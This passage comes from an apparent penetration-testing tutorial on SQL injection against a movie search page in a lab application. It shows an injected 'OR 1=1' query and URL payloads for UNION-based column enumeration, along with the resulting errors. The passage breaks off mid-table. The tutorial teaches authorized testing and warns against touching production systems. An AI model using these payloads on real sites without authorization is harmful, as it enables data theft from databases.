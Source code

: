 <span class="cm">/* ?title=%27 */</span>

<span class="k">SELECT</span> <span class="n">title</span><span class="p">,</span> <span class="n">release</span><span class="p">,</span> <span class="n">character</span><span class="p">,</span> <span class="n">genre</span><span class="p">,</span> <span class="n">imdb</span> 
<span class="k">FROM</span> <span class="n">movie</span>
<span class="k">WHERE</span> <span class="n">title</span> <span class="k">LIKE</span> <span class="s1">'%iron'</span> <span class="k">OR</span> <span class="mi">1</span><span class="o">=</span><span class="mi">1</span> <span class="c1">-- %'</span>
<span class="c1">ORDER</span> <span class="c1">BY</span> <span class="c1">title</span> <span class="c1">ASC</span><span class="c1">;</span>  
</code></pre></div></div>



### Exploiting a Vulnerability

We've proven that we can successfully submit SQL syntax to alter a database query. If this is as far as we could go, it would still be worth reporting, however, it is almost always better to provide a proof of concept in the bug report. (Especially for bug bounties.)

><span class="warning">**IMPORTANT**</span>: Don't compromise an application or data that is in production. If you're unsure if you should proceed, talk to your supervisor or the person who authorized the test.

#### Union Based Exploitation

The UNION operator is used to combine two or more SELECT statements. 

```sql

/* Example */

SELECT column_one, column_two FROM table_one
UNION
SELECT column_one, column_two FROM table_two;

/* This query would return all data in column_one and column_two of both table_one and table_two. */

```

A union statement must meet two requirements to be successful:

- Both data sets must have the same number of columns.
- All data within a column must have a compatible data type. E.g. Strings cannot be combined with a numerical column.

The movie table has 5 columns displayed in the application, so modify the URL to union a select statement with 5 columns. If an error is returned, add an additional column. Continue to add and submit columns to the select statement until the query is successful.



<div class="no-overflow">
<table>
  <thead>
    <tr>
      <th>URL Parameters</th>
      <th>Result</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>?title=%27UNION+SELECT+1,2,3,4,5+--+&amp;action=search</td>
      <td>‘Error: The used SELECT statements have a different number of columns’ is returned.</td>
    </tr>
    <tr>
      <td>?title=%27UNION+SELECT+1,2,3,4,5,6+--+&amp;action=search</td>
      <td>‘Error: The used SELECT statements have a different number of columns’ is returned.</td>
